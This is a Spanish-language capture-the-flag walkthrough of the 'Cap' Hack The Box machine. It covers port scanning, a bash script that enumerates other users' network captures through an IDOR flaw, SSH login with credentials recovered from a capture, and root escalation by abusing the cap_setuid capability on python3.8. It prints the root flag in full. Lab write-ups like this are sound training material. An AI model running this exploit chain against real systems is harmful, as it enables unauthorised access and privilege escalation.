


# Cap

`Cap` es una máquina Linux de dificultad fácil que ejecuta un servidor HTTP que realiza funciones administrativas, incluida la realización de capturas de red. Los controles inadecuados dan como resultado una referencia directa a objetos insegura (IDOR) que otorga acceso a la captura de otro usuario. La captura contiene credenciales de texto sin formato y se puede utilizar para obtener un punto de apoyo. Luego, se aprovecha una capacidad de Linux para escalar a la raíz.

<figure><figcaption></figcaption></figure>

***


```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.245 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-26 13:28 CET
Initiating SYN Stealth Scan at 13:28
Scanning 10.10.10.245 [65535 ports]
Discovered open port 22/tcp on 10.10.10.245
Discovered open port 80/tcp on 10.10.10.245
Discovered open port 21/tcp on 10.10.10.245
Completed SYN Stealth Scan at 13:28, 20.61s elapsed (65535 total ports)
Nmap scan report for 10.10.10.245
Host is up, received user-set (0.14s latency).
Scanned at 2025-01-26 13:28:23 CET for 20s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 20.78 seconds
           Raw packets sent: 65804 (2.895MB) | Rcvd: 65819 (2.633MB)
```


```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.245
	[*] Open ports: 21,22,80

[*] Ports copied to clipboard
```


```bash
❯ nmap -sCV -p21,22,80 10.10.10.245 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-26 13:29 CET
Nmap scan report for 10.10.10.245
Host is up (0.055s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   101.38 ms 10.10.16.1
2   32.57 ms  10.10.10.245

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.94 seconds
```


```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


<figure><figcaption></figcaption></figure>


```bash
❯ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>

5 segundos

<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
#!/bin/bash

# Crear la carpeta si no existe
mkdir -p PCAPS

# Descargar los archivos y guardarlos como $i.pcap
for i in {0..100}; do
    # Intentar descargar el archivo y verificar si existe
    wget -q --show-progress "http://10.10.10.245/download/$i" -O "PCAPS/$i.pcap" 2>/dev/null
    if [ $? -ne 0 ]; then
        # Eliminar el archivo vacío si la descarga falla
        rm -f "PCAPS/$i.pcap"
    fi
done
```


```bash
❯ chmod +x exploit.sh

❯ ./exploit.sh

❯ ls -l PCAPS
.rw-rw-r-- kali kali 9.7 KB Sat May 15 21:53:54 2021  0.pcap
.rw-rw-r-- kali kali 488 B  Sun Jan 26 13:38:29 2025  1.pcap
.rw-rw-r-- kali kali 488 B  Sun Jan 26 13:39:07 2025  2.pcap
.rw-rw-r-- kali kali 488 B  Sun Jan 26 13:39:42 2025  3.pcap
.rw-rw-r-- kali kali 488 B  Sun Jan 26 13:39:58 2025  4.pcap
```


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


```bash
❯ ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

...[snip]...

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ cat user.txt
f58f8216595***********************
```


```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep

nathan@cap:~$ which python3.8 | xargs ls -l
-rwxr-xr-x 1 root root 5486384 Jan 27  2021 /usr/bin/python3.8
nathan@cap:~$ which python3.8 | xargs getcap
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```


```bash
nathan@cap:~$ python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system("whoami")
root
0
>>> os.system("/bin/bash")
root@cap:~# cat /root/root.txt
d6f9670f22792e4ad2979e67595cb414
```
